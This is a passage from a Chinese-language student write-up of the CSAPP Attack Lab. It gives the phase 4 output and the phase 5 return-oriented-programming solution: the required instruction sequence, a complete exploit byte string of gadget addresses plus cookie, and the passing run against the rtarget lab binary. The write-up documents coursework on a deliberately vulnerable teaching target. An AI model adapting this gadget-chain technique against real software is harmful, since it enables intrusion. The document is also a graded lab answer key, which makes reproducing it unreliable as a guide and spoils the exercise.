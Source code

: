 ```bash
2017211523@bupt3:~/target117$ ./hex2raw < phase4 | ./rtarget
Cookie: 0x63149380
Type string:Touch2!: You called touch2(0x63149380)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

### phase_5

此关为 phase_3 的 ROP 版本，我们需要查找 start_farm 到 end_farm 中的 gadgets，拼凑出代码实现 phase_3 中插入代码的功能。还需注意：

1.0x90 代表 nop，除了将 pc 加 1 之外不做任何事。

2.不分双字节指令，设置标志位，不改变寄存器的值，可以使用。

需要的指令有

```assembly
movq	%rsp,%rax
movq	%rax,%rdi
popq	%rax
movl	%eax,%ecx
movl	%ecx,%edx
movl	%edx,%esi
lea(%rdi, %rsi, 1),%rax
movq	%rax,%rdi
```

则攻击字符串为

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
bd 18 40 00 00 00 00 00	/*	gadget1			*/
49 18 40 00 00 00 00 00	/*	gadget2			*/
30 18 40 00 00 00 00 00	/* 	gadget3			*/
48 00 00 00 00 00 00 00	/*	cookie字符串偏移量*/
13 19 40 00 00 00 00 00	/*	gadget4			*/
ca 18 40 00 00 00 00 00	/*	gadget5			*/
b7 18 40 00 00 00 00 00	/*	gadget6			*/
69 18 40 00 00 00 00 00	/*	gadget7			*/
49 18 40 00 00 00 00 00	/*	gadget8			*/
a0 17 40 00 00 00 00 00 /*	touch3地址   	   */
36 33 31 34 39 33 38 30 /* 	cookie字符串	  */
00
```

转换文件运行

```bash
2017211523@bupt3:~/target117$ ./hex2raw < phase5 | ./rtarget
Cookie: 0x63149380
Type string:Touch3!: You called touch3("63149380")
Valid solution for level 3 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

## 到此为止

